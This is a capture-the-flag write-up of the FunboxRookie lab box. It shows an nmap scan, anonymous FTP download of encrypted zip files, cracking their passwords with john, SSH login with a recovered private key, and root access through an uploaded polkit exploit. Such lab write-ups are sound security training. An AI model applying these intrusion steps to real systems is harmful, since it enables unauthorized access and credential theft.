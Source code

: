 ## FunBoxRookie
- Started box, got the ip **192.168.204.107**
- As always, start with enumeration

### Enumeration
- Browsed to ip, found an apache2 default page showing webserver running on server.
- Scanning for open ports, found three interesting ports:
```
sudo nmap 192.168.204.107 -sS -vv
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-22 21:54 EAT
....
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 42.36 seconds
           Raw packets sent: 1114 (48.968KB) | Rcvd: 1031 (41.292KB)
```

- Considering http port 80 was the webserver we saw, and we dont have the ssh logins, the most obvious guess was that ftp allows anonymous logins.
- Trying it:
```
festus@boynamedboy:~/Desktop/CTF/Proving Grounds/FunboxRookie$ ftp 192.168.204.107
Connected to 192.168.204.107.
220 ProFTPD 1.3.5e Server (Debian) [::ffff:192.168.204.107]
Name (192.168.204.107:festus): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.49.204 !
230-
230-The local time is: Tue Feb 22 19:00:12 2022
230-
230-This is an experimental FTP server.  If you have any unusual problems,
230-please report them via e-mail to <root@funbox2>.
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||58597|)
150 Opening ASCII mode data connection for file list
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
-r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
-rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
226 Transfer complete
```
- From the files, decided to fetch them locally by using the get command:
```
ftp> get anna.zip
local: anna.zip remote: anna.zip
229 Entering Extended Passive Mode (|||11790|)
150 Opening BINARY mode data connection for anna.zip (1477 bytes)
100% |***********************************|  1477      342.28 KiB/s    00:00 ETA
226 Transfer complete
1477 bytes received in 00:00 (7.83 KiB/s)
```
- Did this for all until alls files were available offline
- Trying to unzip them requires a password, so decide to look for clues in the welcome.msg:
```
festus@boynamedboy:~/Desktop/CTF/Proving Grounds/FunboxRookie$ cat welcome.msg 
Welcome, archive user %U@%R !

The local time is: %T

This is an experimental FTP server.  If you have any unusual problems,
please report them via e-mail to <root@%L>
```
- Message still brings up no clues.
- Decided to crack all the passwords for the zips:
```
zip2john *.zip > crack.txt
```
- Then finally use john:
```
festus@boynamedboy:~/Desktop/CTF/Proving Grounds/FunboxRookie$ john -w=/usr/share/wordlists/rockyou.txt xub.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iubire           (tom.zip/id_rsa)     
catwoman         (cathrine.zip/id_rsa)     
2g 0:00:00:08 DONE (2022-02-22 22:25) 0.2239g/s 1606Kp/s 1608Kc/s 1608KC/s "2parrow"..*7¡Vamos!
Warning: passwords printed above might not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
- Unzipping both cathrine.zip and tom.zip gives us an id_rsa - Inside id_rsa, there is a private key which we can now use to try using ssh:
```
festus@boynamedboy:~/Desktop/CTF/Proving Grounds/FunboxRookie$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA6/v83+Ih99kKEhLa9XL0H7ugQzx5tQMK8/DrzgGR7gWnkXgH
GjyG+roZJyqHTEBi62/IyyiAxkX0Uh4NgEqh4LWQRy4dhc+bP6GYYrMezPiljzTp
Sc15tN+6Txtx0gOb0LPttVemJoFXZ1wQsNivCvEzxSESGTGR5p2QUybMlk2dS2UC
Mn6FvcHCcKyBRUK9udIh29wGo0+pnuRw2SrKY9PzidP6Ao3sxJrlAJ5+SQkA86ZV
pIhAIZyQHX2frjEEiQgVbwzTLWP2ezMZp195cINiJcIAuTLp2hKZLTDqL/U9ncUs
Y2qbFVqQQfn8078Wbe4NrUBU2rkMtz6iE+BWhwIDAQABAoIBAAhrKvBJvvB6m7Nd
XNZYzYC8TtFXPPhKLX/aXm8w+yXEqd+0qnwzIJWdQfx1tfHwchb4G++zeDSalka/
r7ed8fx0PbtsV71IVL+GYktTHIwvaqibOJ9bZzYerSTZU8wsOMjPQnGvuMuy3Y1g
aXAFquj3BePIdD7V1+CkSlvNDItoE+LsZvdQQBAA/q648FiBzaiBE6swXZwqc4sR
P1igsqihOdjaK1AvPd5BSEMZDNF5KpMqIcEz1Xt8UceCj/r5+tshg4rOFz2/oYOo
.....
....
....
mOGTmkqb3grpy4sp/5QQFtE10fh1Ll+BXsK46HE2pPtg/JHoXyeFevpLXi8YgYjQ
22nBTFCyu2vcWKEQI21H7Rej9FGyFSnPedDNp0C58WPdEuGIC/tr
-----END RSA PRIVATE KEY-----
```
- We can now login as:
```
festus@boynamedboy:~/Desktop/CTF/Proving Grounds/FunboxRookie$ ssh -i id_rsa cathrine@192.168.204.107
```
- Catherine's key fails to login, so we unzip tom's zip and use his key to login:
```
festus@boynamedboy:~/Desktop/CTF/Proving Grounds/FunboxRookie$ unzip tom.zip 
Archive:  tom.zip
[tom.zip] id_rsa password: 
  inflating: id_rsa                  
festus@boynamedboy:~/Desktop/CTF/Proving Grounds/FunboxRookie$ ssh -i id_rsa tom@192.168.204.107
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 ...
 ...
 ...
 To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@funbox2:~$ 
```
- Once we have gaine a shell, we can now begin to look for local.txt and proof.txt:
```
tom@funbox2:~$ ls
local.txt
tom@funbox2:~$ cat local.txt
(redacted flag)
tom@funbox2:~$ 
```

- Next, to find proof.txt, we have to privilege escalate so as to browse through the root directory

- Afer more enumeration i settled on two methods to read proof.txt from the root directory:

- For more info on methods to privesc, check my contributions to this repo [Linux Priv Esc](https://github.com/fr334aks-TTW/15-days-of-hacking/tree/main/Boynamedboy/2.Linux%20Priv%20Esc)

- Decide to settle on a polkit exploit. Uploaded the compiled binary via netcat and excuted it to gain elevated privileges:
```
tom@funbox2:~$ ls
exploit
tom@funbox2:~$ chmod +x exploit
tom@funbox2:~$ ./exploit
Spawning root shell
root!
#
```
- Finally, search for proof.txt and read its contents to get the flag:
```
# find / -type f -name proof.txt 2>/dev/null
/root/proof.txt
^C
# cat /root/proof.txt
(redacted flag)
# exit
```



